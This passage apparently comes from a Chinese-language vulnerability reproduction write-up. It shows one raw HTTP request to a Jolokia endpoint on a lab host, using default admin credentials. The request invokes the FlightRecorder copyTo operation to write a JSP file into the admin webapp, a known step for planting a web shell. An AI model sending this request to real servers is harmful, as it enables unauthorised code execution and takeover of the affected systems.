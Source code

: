 ![image-20240228112421745](images/9.png)

导出jsp

```
POST /api/jolokia HTTP/1.1
Host: 192.168.50.74:8161
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM
origin: http://localhost
Connection: close
Content-Type: application/json
Content-Length: 156

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "copyTo",
    "arguments": [7,"webapps/admin/1234.jsp"]
}
```
